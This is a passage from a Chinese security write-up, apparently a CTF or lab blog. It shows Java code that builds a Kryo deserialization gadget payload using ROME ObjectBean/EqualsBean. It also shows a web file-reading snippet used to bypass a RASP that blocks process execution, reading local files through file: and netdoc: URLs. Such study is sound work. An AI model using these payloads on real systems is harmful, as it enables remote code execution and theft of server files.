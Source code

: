 ```java
        //反序列化
        ByteArrayInputStream bas = new ByteArrayInputStream(bos.toByteArray());
        Input input = new Input(bas);
        kryo.readClassAndObject(input);
    }

    public static HashMap getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "rand"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "rand");
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, "equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));
        return hashMap;
    }
}
```
![](https://img-blog.csdnimg.cn/9b141e07a7b4484f988ba8ebdffdd6ed.png)

参考：
[Dubbo反序列化漏洞分析集合2](https://tttang.com/archive/1747/)
[从Kryo反序列化到Marshalsec框架到CVE挖掘](https://cloud.tencent.com/developer/article/1624416)
[Kryo反序列化学习](https://blog.oversec.fun/kryo-deserialize-learn)

#### rasp绕过

看到Y4师傅的文章，这里学到一个读文件
```java
String code = request.getParameter("read");
java.io.PrintWriter writer = response.getWriter();
String urlContent = "";
URL url = new URL(code);
BufferedReader in = new BufferedReader(new InputStreamReader(url.openStream()));
String inputLine = "";
while ((inputLine = in.readLine()) != null) {
    urlContent = urlContent + inputLine + "\n";
}
in.close();
writer.println(urlContent);
writer.flush();
writer.close();
```

命令执行用不了，读文件总可以吧，使用`file:`或者`netdoc:`，
![](https://img-blog.csdnimg.cn/9838f7231da84c5fb70b7894077cc121.png)

下载下来jrasp.jar，然后看到Rasp的关键代码
![](https://img-blog.csdnimg.cn/55a2270bccec4d2497051b8b6fb0c259.png)

只要执行到`java.lang.ProcessImpl`的start方法，就会被ban掉，而这也就封掉了之前常见的Runtime、ProcessBuilder、js执行等等，因为都会调用到 `java.lang.ProcessImpl`
